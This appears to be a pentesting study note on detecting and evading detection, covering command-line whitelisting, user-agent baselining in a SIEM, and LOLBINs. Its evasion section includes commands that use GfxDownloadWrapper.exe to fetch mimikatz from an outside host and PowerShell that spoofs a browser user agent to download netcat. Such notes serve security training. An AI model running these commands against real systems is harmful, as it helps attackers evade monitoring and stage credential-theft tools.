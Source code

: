 # Detection
- This page is not finished

## Command Line Detection
- command line detection by blacklisting can be bypasses
- command line detection by whitelisting is quite robust but can take a lot of work at first

## HTTP: User Agent
- this website helps to identify user agent strings: https://useragentstring.com/index.php

User agents are not only used to identify web browsers, but anything acting as an HTTP client and connecting to a web server via HTTP can have a user agent string (i.e., cURL, a custom Python script, or common tools such as sqlmap, or Nmap).

Organizations can identify potential user agent strings by first building a list of legitimate user agent strings, user agents used by system processes, update services such as Windows Update, and antivirus updates, etc. These can be fed into a SIEM tool used for threat hunting to filter out legitimate traffic and focus on anomalies that may indicate suspicious behavior. 

# Evading Detection
## Evade Application Whitelisting
- https://gtfobins.github.io/
- https://lolbas-project.github.io/
- Application whitelisting may prevent you from using PowerShell or Netcat, and command-line logging may alert defenders to your presence.
- In this case, an option may be to use a "LOLBIN" (living off the land binary), alternatively also known as "misplaced trust binaries."

### Transferring File with GfxDownloadWrapper.exe

```shell
GfxDownloadWrapper.exe "http://10.10.10.132/mimikatz.exe" "C:\Temp\nc.exe"
```

## User Agents can be Changed
```shell 
#get a list of user agents:
[Microsoft.PowerShell.Commands.PSUserAgent].GetProperties() | Select-Object Name,@{label="User Agent";Expression={[Microsoft.PowerShell.Commands.PSUserAgent]::$($_.Name)}} | fl

#Change the User Agent
$UserAgent = [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome
Invoke-WebRequest http://10.10.10.32/nc.exe -UserAgent $UserAgent -OutFile "C:\Users\Public\nc.exe"
```